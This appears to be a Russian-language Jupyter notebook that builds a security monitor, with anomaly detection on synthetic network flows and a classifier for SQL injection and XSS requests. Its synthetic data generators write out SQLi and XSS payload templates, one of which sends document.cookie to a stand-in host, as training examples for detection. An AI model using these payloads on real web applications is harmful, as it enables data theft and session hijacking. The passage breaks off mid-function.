# AI Security Monitor — полный конвейер в одном ноутбуке

Ноутбук повторяет логику проекта из ТЗ: **config → утилиты → Модуль 1 (сеть) → Модуль 2 (NLP) → единая схема событий → аналог панели → качество**.
Папки `src/`, `scripts/`, `data/` не были загружены, поэтому всё написано здесь и использует те же имена функций
(`clean_network_data`, `train_network_models`, `normalize_request`, `classify_requests`, `explain_request`, `make_events_frame`, `validate_events` …).

**Данные:** CIC-IDS2017 и открытые наборы SQLi/XSS не скачать из ноутбука, поэтому используются **синтетические** наборы
(в той же схеме столбцов). Чтобы взять реальные данные, замените ячейки генерации на `pd.read_csv(...)`.

**Что в ноутбуке**
1. Конфигурация и безопасные утилиты (CSV, формулы, схема событий)
2. Модуль 1: очистка, Isolation Forest, Random Forest, метрики
3. Модуль 2: нормализация, TF-IDF + LogReg vs Naive Bayes, объяснение, тест ложных срабатываний
4. События, фильтры, экспорт, графики «Обзора»
5. Итоговая проверка критериев приёмки

> Все результаты — **прогноз модели (не подтверждено)**.

## 1. Конфигурация (аналог `config.py`)

In [1]:
import html, json, re, warnings
from pathlib import Path
from urllib.parse import unquote_plus

import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns
from sklearn.ensemble import IsolationForest, RandomForestClassifier
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.impute import SimpleImputer
from sklearn.linear_model import LogisticRegression
from sklearn.metrics import (accuracy_score, confusion_matrix, f1_score,
                             precision_score, recall_score)
from sklearn.model_selection import GridSearchCV, train_test_split
from sklearn.naive_bayes import MultinomialNB
from sklearn.pipeline import Pipeline
from sklearn.preprocessing import FunctionTransformer

warnings.filterwarnings("ignore")
sns.set_theme(style="whitegrid")

RANDOM_STATE = 42
TEST_SIZE = 0.25
OUTPUTS_DIR = Path("outputs"); REPORTS_DIR = OUTPUTS_DIR / "reports"
for d in (OUTPUTS_DIR, REPORTS_DIR):
    d.mkdir(parents=True, exist_ok=True)

NETWORK_LABEL_COL, NETWORK_TIME_COL, NETWORK_BENIGN_LABEL = "Label", "Timestamp", "BENIGN"
NETWORK_FEATURES = [
    "Destination Port", "Flow Duration", "Total Fwd Packets", "Total Backward Packets",
    "Total Length of Fwd Packets", "Total Length of Bwd Packets", "Fwd Packet Length Mean",
    "Bwd Packet Length Mean", "Flow Bytes/s", "Flow Packets/s", "Flow IAT Mean",
    "SYN Flag Count", "ACK Flag Count", "Average Packet Size",
]
TEXT_COL, TEXT_LABEL_COL, TEXT_TIME_COL = "request", "label", "timestamp"
TEXT_CLASSES = ["Normal", "SQL Injection", "XSS"]
MAX_REQUEST_LENGTH = 4096
NLP_REVIEW_THRESHOLD = 0.60

EVENT_COLUMNS = ["event_id", "timestamp", "source_module", "model_name", "prediction", "score",
                 "is_alert", "needs_review", "ground_truth", "details", "status"]
PREDICTION_STATUS = "Прогноз модели (не подтверждено)"

MAX_UPLOAD_MB, MAX_UPLOAD_ROWS, ALLOWED_EXTENSIONS = 20, 200_000, {".csv"}
rng = np.random.default_rng(RANDOM_STATE)

## 2. Безопасные утилиты (аналог `io_utils.py` и `metrics.py`)

In [2]:
class DataValidationError(ValueError):
    """Ошибка проверки входного файла/данных."""

def read_csv_safely(path_or_buffer, filename=None):
    """N3: только .csv, <= 20 МБ, <= 200 000 строк; строки не исполняются."""
    name = str(filename or path_or_buffer)
    if Path(name).suffix.lower() not in ALLOWED_EXTENSIONS:
        raise DataValidationError("Допускаются только файлы .csv")
    if isinstance(path_or_buffer, (str, Path)):
        if Path(path_or_buffer).stat().st_size > MAX_UPLOAD_MB * 1024 * 1024:
            raise DataValidationError(f"Файл больше {MAX_UPLOAD_MB} МБ")
    df = pd.read_csv(path_or_buffer, low_memory=False)
    if len(df) > MAX_UPLOAD_ROWS:
        raise DataValidationError(f"Больше {MAX_UPLOAD_ROWS} строк")
    df.columns = df.columns.str.strip()          # у CIC-IDS2017 есть ведущие пробелы
    return df

def require_columns(df, cols):
    missing = [c for c in cols if c not in df.columns]
    if missing:
        raise DataValidationError("Нет обязательных столбцов: " + ", ".join(missing))

def data_quality_report(df, numeric_cols=None):
    num = df[numeric_cols] if numeric_cols else df.select_dtypes("number")
    return {"rows": int(len(df)),
            "duplicates": int(df.duplicated().sum()),
            "missing_total": int(df.isna().sum().sum()),
            "infinite_values": int(np.isinf(num.apply(pd.to_numeric, errors="coerce")).sum().sum())}

def sanitize_for_csv_export(df):
    """N5: защита от formula injection — префикс ' для ячеек, начинающихся с = + - @."""
    out = df.copy()
    for c in out.columns:
        if out[c].dtype == object:
            out[c] = out[c].map(lambda v: "'" + v if isinstance(v, str) and v[:1] in "=+-@" else v)
    return out

def to_csv_bytes(df):
    return sanitize_for_csv_export(df).to_csv(index=False).encode("utf-8-sig")

# ---- единая схема событий -------------------------------------------------
def make_events_frame(prefix, timestamp, source_module, model_name, prediction, score,
                      is_alert, needs_review, ground_truth, details):
    n = len(prediction)
    df = pd.DataFrame({
        "event_id": [f"{prefix}-{i + 1:06d}" for i in range(n)],
        "timestamp": pd.Series(timestamp if timestamp is not None else [""] * n).astype(str).replace("NaT", "").values,
        "source_module": source_module, "model_name": model_name,
        "prediction": np.asarray(prediction).astype(str),
        "score": np.clip(np.asarray(score, dtype=float), 0, 1).round(4),
        "is_alert": np.asarray(is_alert, dtype=bool),
        "needs_review": np.asarray(needs_review, dtype=bool),
        "ground_truth": (pd.Series(ground_truth).fillna("").astype(str).values
                         if ground_truth is not None else [""] * n),
        "details": np.asarray(details).astype(str),
        "status": PREDICTION_STATUS})
    return validate_events(df[EVENT_COLUMNS])

def validate_events(df):
    if list(df.columns) != EVENT_COLUMNS:
        raise DataValidationError(f"Схема событий нарушена: {list(df.columns)}")
    must = [c for c in EVENT_COLUMNS if c not in ("timestamp", "ground_truth")]
    if df[must].isna().any().any():
        raise DataValidationError("Пропуски в обязательных полях события")
    if not df["score"].between(0, 1).all():
        raise DataValidationError("score вне [0, 1]")
    if df["event_id"].duplicated().any():
        raise DataValidationError("event_id не уникален")
    return df

# ---- метрики -----------------------------------------------------------
def false_positive_rate(y_true, y_pred, normal_label):
    y_true, y_pred = np.asarray(y_true), np.asarray(y_pred)
    neg = y_true == normal_label
    return float((y_pred[neg] != normal_label).mean()) if neg.any() else float("nan")

def evaluate_classifier(y_true, y_pred, labels, normal_label):
    avg = dict(average="macro", zero_division=0)
    return {"accuracy": round(accuracy_score(y_true, y_pred), 4),
            "precision_macro": round(precision_score(y_true, y_pred, labels=labels, **avg), 4),
            "recall_macro": round(recall_score(y_true, y_pred, labels=labels, **avg), 4),
            "f1_macro": round(f1_score(y_true, y_pred, labels=labels, **avg), 4),
            "false_positive_rate": round(false_positive_rate(y_true, y_pred, normal_label), 4),
            "support": int(len(y_true)), "labels": list(labels),
            "confusion_matrix": confusion_matrix(y_true, y_pred, labels=labels).tolist()}

def plot_confusion_matrix(cm, labels, title, ax=None):
    ax = ax or plt.subplots(figsize=(4.5, 3.8))[1]
    sns.heatmap(np.array(cm), annot=True, fmt="d", cmap="Blues", cbar=False,
                xticklabels=labels, yticklabels=labels, ax=ax)
    ax.set_title(title); ax.set_xlabel("Прогноз"); ax.set_ylabel("Факт")

## 3. Модуль 1 — сетевой трафик

### 3.1 Синтетический набор в схеме CIC-IDS2017
12 240 строк, 5 классов, 2 % дубликатов, 1 % `inf` и пропусков, 4 % «тяжёлого» нормального трафика
(источник ложных срабатываний). Для реальных данных: `df = read_csv_safely("data/network_traffic.csv")`.

In [3]:
def generate_network_data(n=12000, seed=RANDOM_STATE):
    r = np.random.default_rng(seed)
    shares = {"BENIGN": 0.74, "DoS Hulk": 0.07, "DDoS": 0.08, "PortScan": 0.06, "SSH-Patator": 0.05}
    rows = []
    for label, share in shares.items():
        m = int(n * share)
        if label == "BENIGN":
            port = r.choice([80, 443, 53, 8080, 22, 3389, 25], m, p=[.3, .35, .15, .08, .05, .04, .03])
            dur = r.lognormal(11, 2, m)
            fwd, bwd = r.poisson(10, m) + 1, r.poisson(12, m) + 1
            heavy = r.random(m) < 0.04                      # «тяжёлая» норма: бэкапы и т.п.
            fwd, bwd = np.where(heavy, fwd * 40, fwd), np.where(heavy, bwd * 40, bwd)
            fl, bl = fwd * r.lognormal(5, .8, m), bwd * r.lognormal(5.5, .8, m)
            syn, ack = r.integers(0, 2, m), np.ones(m)
        elif label == "PortScan":
            port = r.integers(1, 65536, m); dur = r.uniform(1, 100, m)
            fwd, bwd = r.integers(1, 3, m), r.integers(0, 2, m)
            fl, bl = fwd * r.uniform(0, 60, m), bwd * r.uniform(0, 60, m)
            syn, ack = np.ones(m), r.integers(0, 2, m)
        elif label == "DDoS":
            port = np.full(m, 80); dur = r.lognormal(10, 1, m)
            fwd, bwd = r.integers(3, 9, m), r.integers(0, 7, m)
            fl, bl = fwd * r.lognormal(4, .5, m), bwd * r.lognormal(4, .5, m)
            syn, ack = r.integers(0, 2, m), r.integers(0, 2, m)
        elif label == "DoS Hulk":
            port = np.full(m, 80); dur = r.lognormal(12, 1.5, m)
            fwd, bwd = r.integers(5, 16, m), r.integers(5, 16, m)
            fl, bl = fwd * r.lognormal(5.2, .8, m), bwd * r.lognormal(5.8, .8, m)
            syn, ack = r.integers(0, 2, m), np.ones(m)
        else:  # SSH-Patator
            port = np.full(m, 22); dur = r.lognormal(10.5, .5, m)
            fwd, bwd = r.integers(20, 31, m), r.integers(20, 31, m)
            fl, bl = fwd * r.lognormal(4.6, .3, m), bwd * r.lognormal(4.8, .3, m)
            syn, ack = r.integers(0, 2, m), np.ones(m)
        tot = fwd + bwd
        rows.append(pd.DataFrame({
            "Destination Port": port, "Flow Duration": dur.round(0),
            "Total Fwd Packets": fwd, "Total Backward Packets": bwd,
            "Total Length of Fwd Packets": fl.round(0), "Total Length of Bwd Packets": bl.round(0),
            "Fwd Packet Length Mean": fl / fwd, "Bwd Packet Length Mean": np.where(bwd > 0, bl / np.maximum(bwd, 1), 0),
            "Flow Bytes/s": (fl + bl) / (dur / 1e6), "Flow Packets/s": tot / (dur / 1e6),
            "Flow IAT Mean": dur / tot, "SYN Flag Count": syn, "ACK Flag Count": ack,
            "Average Packet Size": (fl + bl) / tot, "Label": label}))
    df = pd.concat(rows, ignore_index=True).sample(frac=1, random_state=seed).reset_index(drop=True)
    df.insert(0, "Timestamp", (pd.Timestamp("2026-09-01 08:00") +
                               pd.to_timedelta(np.sort(r.integers(0, 8 * 3600, len(df))), unit="s")).astype(str))
    k = int(0.01 * len(df))                                  # inf и пропуски
    df.loc[r.choice(len(df), k, replace=False), "Flow Bytes/s"] = np.inf
    df.loc[r.choice(len(df), k, replace=False), "Flow Packets/s"] = np.nan
    return pd.concat([df, df.sample(frac=0.02, random_state=seed)], ignore_index=True)

raw_net = generate_network_data()
print(raw_net.shape); raw_net.head()

(12240, 16)


,Timestamp,Destination Port,Flow Duration,Total Fwd Packets,Total Backward Packets,Total Length of Fwd Packets,Total Length of Bwd Packets,Fwd Packet Length Mean,Bwd Packet Length Mean,Flow Bytes/s,Flow Packets/s,Flow IAT Mean,SYN Flag Count,ACK Flag Count,Average Packet Size,Label
0,2026-09-01 08:00:00,80,981549.0,8,17,1698.0,13832.0,212.312065,813.648522,1.582246e+04,25.469944,39261.963366,0.0,1.0,621.220856,BENIGN
1,2026-09-01 08:00:07,8080,8081.0,10,11,488.0,17288.0,48.794101,1571.647415,2.199750e+06,2598.704972,384.807052,1.0,1.0,846.479170,BENIGN
2,2026-09-01 08:00:07,80,182053.0,9,11,891.0,2755.0,99.041129,250.481146,2.003072e+04,109.857831,9102.673822,1.0,1.0,182.333138,BENIGN
3,2026-09-01 08:00:09,80,197564.0,13,10,2653.0,2587.0,204.052975,258.699861,2.652148e+04,116.418004,8589.736723,0.0,1.0,227.812490,DoS Hulk
4,2026-09-01 08:00:10,3389,1041278.0,12,8,789.0,2437.0,65.778348,304.589367,3.098168e+03,19.207163,52063.909130,0.0,1.0,161.302756,BENIGN


### 3.2 Отчёт о качестве и очистка (F2, F3)

{'rows': 12240, 'duplicates': 240, 'missing_total': 123, 'infinite_values': 121, 'duplicates_removed': 240}




In [4]:
def clean_network_data(df):
    """Числа → numeric, inf → NaN, удаление дубликатов. Медианная импутация — позже, в Pipeline."""
    require_columns(df, NETWORK_FEATURES)
    quality = data_quality_report(df, NETWORK_FEATURES)
    out = df.copy()
    out[NETWORK_FEATURES] = out[NETWORK_FEATURES].apply(pd.to_numeric, errors="coerce")
    out = out.replace([np.inf, -np.inf], np.nan)
    before = len(out)
    out = out.drop_duplicates().reset_index(drop=True)
    quality["duplicates_removed"] = before - len(out)
    return out, quality

net, net_quality = clean_network_data(raw_net)
print(net_quality)
net[NETWORK_LABEL_COL].value_counts().plot.barh(color="#55A868", title="Распределение меток (F4)");

### 3.3 Isolation Forest и Random Forest
* Разбиение 75/25 **стратифицированное и до любых преобразований**; импутация и логарифмирование — внутри `Pipeline`.
* IF обучается только на BENIGN из train; `contamination` подбирается по F1 на **валидационной части train**, не на test.
* RF: `GridSearchCV` (3-fold) по `max_depth`, `min_samples_leaf`, метрика `f1_macro`.

In [5]:
def build_isoforest_pipeline(contamination):
    return Pipeline([("imputer", SimpleImputer(strategy="median")),
                     ("log", FunctionTransformer(np.log1p, validate=False)),
                     ("iso", IsolationForest(n_estimators=200, contamination=contamination,
                                             random_state=RANDOM_STATE, n_jobs=-1))])

def build_rf_pipeline():
    return Pipeline([("imputer", SimpleImputer(strategy="median")),
                     ("rf", RandomForestClassifier(n_estimators=150, class_weight="balanced_subsample",
                                                   random_state=RANDOM_STATE, n_jobs=-1))])

def tune_isoforest_contamination(X_train, y_train, grid=(0.01, 0.02, 0.05, 0.10, 0.15, 0.20)):
    """Подбор contamination по F1 (атака vs норма) на валидационной части train."""
    X_fit, X_val, y_fit, y_val = train_test_split(X_train, y_train, test_size=0.25,
                                                  stratify=y_train, random_state=RANDOM_STATE)
    is_attack = (y_val != NETWORK_BENIGN_LABEL).astype(int)
    best, scores = None, {}
    for c in grid:
        pipe = build_isoforest_pipeline(c).fit(X_fit[y_fit == NETWORK_BENIGN_LABEL])
        pred = (pipe.predict(X_val) == -1).astype(int)
        scores[c] = f1_score(is_attack, pred, zero_division=0)
        if best is None or scores[c] > scores[best]:
            best = c
    return best, scores

def iso_score01(pipe, X):
    """Аномальность 0..1: сигмоида от -decision_function (0.5 — граница решения)."""
    return 1 / (1 + np.exp(10 * pipe.decision_function(X)))

def train_network_models(df):
    X, y = df[NETWORK_FEATURES], df[NETWORK_LABEL_COL]
    X_tr, X_te, y_tr, y_te = train_test_split(X, y, test_size=TEST_SIZE, stratify=y, random_state=RANDOM_STATE)
    cont, cont_scores = tune_isoforest_contamination(X_tr, y_tr)
    iso = build_isoforest_pipeline(cont).fit(X_tr[y_tr == NETWORK_BENIGN_LABEL])
    grid = GridSearchCV(build_rf_pipeline(), {"rf__max_depth": [10, None], "rf__min_samples_leaf": [1, 3]},
                        cv=3, scoring="f1_macro", n_jobs=-1).fit(X_tr, y_tr)
    rf = grid.best_estimator_

    # --- Isolation Forest: бинарная оценка на test (однократно) ---
    pred_bin = np.where(iso.predict(X_te) == -1, "Anomaly", "Normal")
    true_bin = np.where(y_te == NETWORK_BENIGN_LABEL, "Normal", "Anomaly")
    m_iso = evaluate_classifier(true_bin, pred_bin, ["Normal", "Anomaly"], "Normal")
    m_iso["contamination"] = cont
    m_iso["contamination_search_f1"] = {str(k): round(v, 4) for k, v in cont_scores.items()}
    m_iso["detection_rate_by_label"] = (pd.Series(pred_bin == "Anomaly", index=y_te.index)
                                        .groupby(y_te).mean().round(3).to_dict())
    # --- Random Forest ---
    labels = sorted(y.unique())
    m_rf = evaluate_classifier(y_te, rf.predict(X_te), labels, NETWORK_BENIGN_LABEL)
    m_rf["best_params"] = grid.best_params_
    m_rf["feature_importance"] = dict(sorted(
        zip(NETWORK_FEATURES, rf.named_steps["rf"].feature_importances_.round(4)), key=lambda t: -t[1]))
    return {"isoforest": iso, "random_forest": rf}, {"isolation_forest": m_iso, "random_forest": m_rf}

net_models, net_metrics = train_network_models(net)
pd.DataFrame({k: {m: v[m] for m in ("accuracy", "precision_macro", "recall_macro", "f1_macro", "false_positive_rate")}
              for k, v in net_metrics.items()}).T

,accuracy,precision_macro,recall_macro,f1_macro,false_positive_rate
isolation_forest,0.7957,0.7357,0.7039,0.7163,0.1050
random_forest,0.9357,0.8978,0.8978,0.8978,0.0428




contamination = 0.1
Лучшие параметры RF: {'rf__max_depth': None, 'rf__min_samples_leaf': 3}




In [6]:
fig, axes = plt.subplots(1, 3, figsize=(15, 3.8))
for ax, (k, t) in zip(axes[:2], [("isolation_forest", "Isolation Forest"), ("random_forest", "Random Forest")]):
    plot_confusion_matrix(net_metrics[k]["confusion_matrix"], net_metrics[k]["labels"], t, ax)
pd.Series(net_metrics["isolation_forest"]["detection_rate_by_label"]).sort_values().plot.barh(ax=axes[2], color="#C44E52")
axes[2].set_title("IF: доля помеченных по факт. метке (для BENIGN — FPR)")
plt.tight_layout(); plt.show()
print("contamination =", net_metrics["isolation_forest"]["contamination"])
print("Лучшие параметры RF:", net_metrics["random_forest"]["best_params"])
pd.Series(net_metrics["random_forest"]["feature_importance"]).head(8).sort_values().plot.barh(title="Важность признаков RF");

### 3.4 Анализ и события сетевого модуля
`needs_review=True`, если IF и RF расходятся («аномалия ≠ атака»).

In [7]:
def analyze_network(df, iso, rf):
    X = df[NETWORK_FEATURES]
    out = df.copy()
    out["if_score"] = iso_score01(iso, X).round(4)
    out["if_anomaly"] = iso.predict(X) == -1
    proba = rf.predict_proba(X)
    out["rf_prediction"] = rf.classes_[proba.argmax(1)]
    out["rf_confidence"] = proba.max(1).round(3)
    return out

def network_events(a):
    rf_attack = a["rf_prediction"] != NETWORK_BENIGN_LABEL
    details = ("port " + a["Destination Port"].astype("Int64").astype(str) +
               " | fwd_pkts " + a["Total Fwd Packets"].astype("Int64").astype(str) +
               " | RF: " + a["rf_prediction"] + " (" + a["rf_confidence"].astype(str) + ")")
    return make_events_frame(
        "net", a[NETWORK_TIME_COL] if NETWORK_TIME_COL in a else None, "network", "IsolationForest",
        np.where(a["if_anomaly"], "Anomaly", "Normal"), a["if_score"], a["if_anomaly"],
        a["if_anomaly"] != rf_attack, a.get(NETWORK_LABEL_COL), details)

analyzed = analyze_network(net, net_models["isoforest"], net_models["random_forest"])
net_events = network_events(analyzed)
print("Аномалий:", int(net_events.is_alert.sum()), "| требуют проверки:", int(net_events.needs_review.sum()))
net_events.head()

Аномалий: 2478 | требуют проверки: 2526


,event_id,timestamp,source_module,model_name,prediction,score,is_alert,needs_review,ground_truth,details,status
0,net-000001,2026-09-01 08:00:00,network,IsolationForest,Normal,0.3649,False,False,BENIGN,port 80 | fwd_pkts 8 | RF: BENIGN (0.983),Прогноз модели (не подтверждено)
1,net-000002,2026-09-01 08:00:07,network,IsolationForest,Anomaly,0.5324,True,True,BENIGN,port 8080 | fwd_pkts 10 | RF: BENIGN (0.974),Прогноз модели (не подтверждено)
2,net-000003,2026-09-01 08:00:07,network,IsolationForest,Normal,0.2367,False,True,BENIGN,port 80 | fwd_pkts 9 | RF: DoS Hulk (0.624),Прогноз модели (не подтверждено)
3,net-000004,2026-09-01 08:00:09,network,IsolationForest,Normal,0.2259,False,True,DoS Hulk,port 80 | fwd_pkts 13 | RF: DoS Hulk (0.793),Прогноз модели (не подтверждено)
4,net-000005,2026-09-01 08:00:10,network,IsolationForest,Normal,0.3918,False,False,BENIGN,port 3389 | fwd_pkts 12 | RF: BENIGN (0.981),Прогноз модели (не подтверждено)


## 4. Модуль 2 — NLP: Normal / SQL Injection / XSS

### 4.1 Нормализация (F8)
Декодирование URL (до 3 раз), HTML-сущности, нижний регистр, схлопывание пробелов, числа → `0`, усечение до 4096 символов.
**Спецсимволы не удаляются** — кавычки, `<`, `>`, `--` и есть основной сигнал.

In [8]:
def normalize_request(text) -> str:
    s = str(text)[:MAX_REQUEST_LENGTH]
    for _ in range(3):                         # защита от многократного URL-кодирования
        dec = unquote_plus(s)
        if dec == s: break
        s = dec
    s = html.unescape(s).lower()
    s = re.sub(r"\s+", " ", s).strip()
    return re.sub(r"\d+", "0", s)

def normalize_label(label) -> str:
    key = str(label).strip().lower()
    mapping = {"normal": "Normal", "benign": "Normal", "0": "Normal", "clean": "Normal",
               "sql injection": "SQL Injection", "sqli": "SQL Injection", "sql": "SQL Injection",
               "xss": "XSS", "cross-site scripting": "XSS"}
    if key not in mapping:
        raise DataValidationError(f"Неизвестная метка: {label!r}")
    return mapping[key]

for t in ["%2527%2520OR%25201%253D1--", "&lt;script&gt;alert(1)&lt;/script&gt;", "/search?q=O'Reilly   Python  2024"]:
    print(f"{t!r:48} →  {normalize_request(t)!r}")

'%2527%2520OR%25201%253D1--'                     →  "' or 0=0--"
'&lt;script&gt;alert(1)&lt;/script&gt;'          →  '<script>alert(0)</script>'
"/search?q=O'Reilly   Python  2024"              →  "/search?q=o'reilly python 0"


### 4.2 Текстовый набор (синтетический шаблонный стенд)
Реальные наборы (Mendeley, IEEE DataPort, Hugging Face) подставляются через `read_csv_safely` + `normalize_label`.
Здесь — генератор шаблонов, чтобы ноутбук работал сразу. **Метрики на таком наборе завышены** — это верхняя граница.
Отдельно создан «трудный» нормальный набор из 24 запросов (аналог `fp_benign_requests.csv`), **не участвующий в обучении**.

In [9]:
def _w(n=6):  # случайное «слово» — чтобы дедупликация после нормализации не схлопнула набор
    return "".join(rng.choice(list("abcdefghijklmnopqrstuvwxyz"), n))

def gen_normal():
    t = rng.integers(0, 9)
    w = _w()
    return [f"/search?q={w}+{_w(5)}", f"name={w}&email={w}@{_w(4)}.com", f"/products/{w}?page={rng.integers(1, 99)}",
            f"comment=Great {w}, thanks for the {_w(5)}!", f"/user/{w}/profile?tab=settings",
            f"title={w}'s notes&lang=en", f"/api/items?sort={w}&order=asc&limit={rng.integers(5, 50)}",
            f"msg=please select a {w} and delete the old {_w(4)} from my cart", f"q=how to use {w} script in {_w(5)}"][t]

def gen_sqli():
    t = rng.integers(0, 8)
    w, n = _w(5), rng.integers(1, 99)
    p = [f"{w}' OR '{n}'='{n}", f"{n} UNION SELECT {w}, password FROM users--", f"admin'-- {w}",
         f"{w}'; DROP TABLE {_w(5)};--", f"{n}' AND SLEEP({rng.integers(2, 9)})-- -",
         f"{w}' OR 1=1 #", f"1 UNION ALL SELECT NULL,{w},table_name FROM information_schema.tables--",
         f"{w}') OR ('{n}'='{n}"][t]
    return p

def gen_xss():
    t = rng.integers(0, 8)
    w = _w(5)
    p = [f"<script>alert('{w}')</script>", f"<img src=x onerror=alert({rng.integers(1, 9)})>",
         f"<svg onload=alert('{w}')>", f"javascript:alert(document.cookie)//{w}",
         f"\"><script>fetch('http://{w}.example/?c='+document.cookie)</script>",
         f"<body onload=alert('{w}')>", f"<iframe src=javascript:alert('{w}')></iframe>",
         f"<a href=\"javascript:alert('{w}')\" onmouseover=alert(1)>{w}</a>"][t]
    return p

def encode_maybe(s):   # ~25% атак приходят URL-кодированными, ~10% — с изменённым регистром
    from urllib.parse import quote
    if rng.random() < 0.25: s = quote(s)
    if rng.random() < 0.10: s = s.swapcase()
    return s

N_PER_CLASS = 1500
text_raw = pd.DataFrame(
    [(gen_normal(), "Normal") for _ in range(N_PER_CLASS)] +
    [(encode_maybe(gen_sqli()), "SQL Injection") for _ in range(N_PER_CLASS)] +
    [(encode_maybe(gen_xss()), "XSS") for _ in range(N_PER_CLASS)], columns=[TEXT_COL, TEXT_LABEL_COL])

HARD_BENIGN = [  # 24 «трудных» нормальных запроса: select/union/script/delete, апострофы, < > = --
    "/search?q=o'reilly python book", "q=how to select a good laptop", "name=D'Angelo&city=Saint-Denis",
    "comment=I want to delete my account, please", "q=union station train schedule", "q=what is a javascript promise",
    "title=Tom's guide to c++ templates (a < b > c)", "msg=score is 3 > 2 and 5 < 9", "q=sql tutorial for beginners",
    "comment=wait -- not yet -- try again later", "q=drop shadow css effect", "q=insert coin to continue",
    "name=O'Connor", "q=update windows 11 select language", "bio=I love hiking and reading <3",
    "q=script for the movie the matrix", "/docs/select-menu-component", "note=a=b and c=d, see you",
    "q=how to write a for loop in python", "msg=the union of two sets is all elements", "q=alert system for kids",
    "feedback=great service, 10/10 -- would recommend", "q=select * is bad practice, why?", "title=Rock 'n' Roll history"]
fp_df = pd.DataFrame({TEXT_COL: HARD_BENIGN, TEXT_LABEL_COL: "Normal"})

def clean_text_data(df):
    require_columns(df, [TEXT_COL, TEXT_LABEL_COL])
    n0 = len(df)
    out = df.dropna(subset=[TEXT_COL, TEXT_LABEL_COL]).copy()
    out[TEXT_LABEL_COL] = out[TEXT_LABEL_COL].map(normalize_label)
    out["_norm"] = out[TEXT_COL].map(normalize_request)
    out = out[out["_norm"] != ""]
    conflict = out.groupby("_norm")[TEXT_LABEL_COL].nunique()          # противоречивые метки — исключаем
    out = out[~out["_norm"].isin(conflict[conflict > 1].index)]
    out = out.drop_duplicates("_norm").drop(columns="_norm").reset_index(drop=True)   # дедуп ДО разбиения
    return out, {"rows_before": n0, "rows_after_cleaning": len(out), "duplicates_removed": n0 - len(out)}

text_df, text_quality = clean_text_data(text_raw)
print(text_quality); print(text_df[TEXT_LABEL_COL].value_counts().to_dict())
text_df.sample(6, random_state=1)

{'rows_before': 4500, 'rows_after_cleaning': 4123, 'duplicates_removed': 377}
{'Normal': 1500, 'XSS': 1312, 'SQL Injection': 1311}


,request,label
1281,msg=please select a xotsfn and delete the old ...,Normal
555,name=shyuqd&email=shyuqd@sbgp.com,Normal
4035,<svg onload=alert('ewwpl')>,XSS
1987,LGRLU%27%20or%20%2750%27%3d%2750,SQL Injection
2586,axhfz') OR ('53'='53,SQL Injection
2062,hdhiq' OR 1=1 #,SQL Injection


### 4.3 TF-IDF (char_wb 2–5) + Logistic Regression vs Multinomial NB
Словарь и IDF обучаются внутри `Pipeline` только на train (и на обучающих фолдах GridSearch). Тест — один раз.

In [10]:
def build_vectorizer():
    return TfidfVectorizer(analyzer="char_wb", ngram_range=(2, 5), sublinear_tf=True, lowercase=False,
                           preprocessor=normalize_request, min_df=2, max_features=150_000)

def build_logreg_pipeline():
    return Pipeline([("tfidf", build_vectorizer()),
                     ("clf", LogisticRegression(max_iter=2000, class_weight="balanced", random_state=RANDOM_STATE))])

def build_nb_pipeline():
    return Pipeline([("tfidf", build_vectorizer()), ("clf", MultinomialNB())])

def train_nlp_models(df):
    X, y = df[TEXT_COL], df[TEXT_LABEL_COL]
    X_tr, X_te, y_tr, y_te = train_test_split(X, y, test_size=TEST_SIZE, stratify=y, random_state=RANDOM_STATE)
    models, metrics = {}, {}
    for key, pipe, grid in [("logistic_regression", build_logreg_pipeline(), {"clf__C": [1, 10, 100]}),
